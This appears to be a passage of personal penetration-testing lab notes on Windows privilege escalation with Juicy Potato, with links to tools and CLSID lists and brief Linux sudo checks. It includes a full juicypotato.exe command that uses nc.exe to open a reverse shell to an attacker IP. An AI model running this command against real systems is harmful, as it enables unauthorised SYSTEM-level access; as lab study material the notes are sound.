    https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

* Juicy potato:

    0. Checking if you can use on cmd:

        ```
        whoami /priv
        ```
        or
        ```
        whoami /all
        ```
        or, if you decide to use meterpreter:
        ```
        meterpreter > getprivs
        ```


        If the output contains **SeImpersonatePrivilege** and **SeAssignPrimaryToken**, probably you can use this method!

    1. How to use: http://ohpe.it/juicy-potato/
    2. List of CLSIDs: http://ohpe.it/juicy-potato/CLSID/
    3. Executables:
        * x86: https://github.com/ivanitlearning/Juicy-Potato-x86/releases (also see folder of machine **Public 73**)
        * x64: https://github.com/ohpe/juicy-potato/releases/tag/v0.1 (oficial github)
    4. More tips: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
    5. Machines that helps: **disco (Public 13)** and **Public 73**. I used metasploit on disco machine, see the report.
    6. How to find CLSID: http://ohpe.it/juicy-potato/Test/ (I did not try this script yet)
    7. After upload the correct executable to target and find the correct CLSID:

        * **This command close a reverse shell to your machine (you need configure a listenner on your machine and upload nc.exe to the victim):**

        ```
        juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\folde\with\nc\nc.exe <ATTACKER_IP> 4444 -e cmd.exe" -t * -c {clsid}
        ```




### Linux

* Simple sudo without password:
    ```
    sudo su -
    ```

* List allowed sudo commands:
    ```
    sudo -l
    ```
